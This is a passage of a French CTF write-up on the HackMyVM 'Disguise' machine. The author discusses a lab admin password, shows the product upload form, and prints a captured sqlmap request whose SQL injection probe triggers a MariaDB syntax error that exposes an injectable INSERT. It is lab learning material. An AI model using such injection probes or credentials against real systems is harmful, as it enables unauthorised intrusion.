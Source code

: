 ### 12 Salopards

Déçu de ne pas avoir pu insister sur cette voie et n'ayant pas d'autres pistes, j'ai cherché un indice sur Internet et je suis tombé sur cet article :

[Disguise writetup by Banditbandit](https://medium.com/@bandit1908bandit/disguise-hard-hackmyvm-1a651514e48b)

L'auteur prétend qu'il a pu brute-forcer le mot de passe du compte `simpleAdmin` avec le wordlist rockyou.

Seulement, j'ai vérifié à plusieurs reprises, re-téléchargé rockyou depuis Github, je certifie que le mot de passe `Str0ngPassw0d1@@@` ne fait pas partie de la wordlist.

Bref. Une fois connecté, on a un nouveau lien dans la zone membre :

`http://dark.disguise.hmv/manager/add_product.php`

On y trouve ce formulaire pour ajouter un produit :

```html
        <form method="post" enctype="multipart/form-data">
            <input type="text" name="name" placeholder="商品名称" required>
            <textarea name="description" placeholder="商品描述" required></textarea>
            <input type="number" step="0.01" name="price" placeholder="价格" required>
            <input type="file" name="image" accept="image/*" required>
            <button type="submit">添加商品</button>
        </form>
```

J'ai lancé sqlmap dessus. J'ai bien pris soin de lui passer les deux cookies (`dark_session` et `PHPSESSID`) avec l'option `-H`.

J'ai aussi mis en écoute un Wireshark qui m'a permit de capturer la première requête :


```http
POST /manager/add_product.php HTTP/1.1
Content-Length: 69
Cookie: PHPSESSID=vv2e2a54l3b9lrjg8e59s3gqjk; dark_session=%2B1%2B3%2FNxCLcIR0Jq9qDudFw%3D%3D;
User-Agent: sqlmap/1.9.5#pip (https://sqlmap.org)
Referer: http://dark.disguise.hmv/manager/add_product.php
Host: dark.disguise.hmv
Accept: */*
Accept-Encoding: gzip,deflate
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

name=test%27hpVjxD%3C%27%22%3EFynCch&description=yolo&price=5&image=2

HTTP/1.1 302 Found
Date: Mon, 05 May 2025 19:31:19 GMT
Server: Apache/2.4.59 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: ../index.php
Content-Length: 240
Connection: close
Content-Type: text/html; charset=UTF-8

..................: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'hpVjxD<'">FynCch','yolo','5','images/519883cc25f656f9a9491ca70c37c727.')' at line 1
```
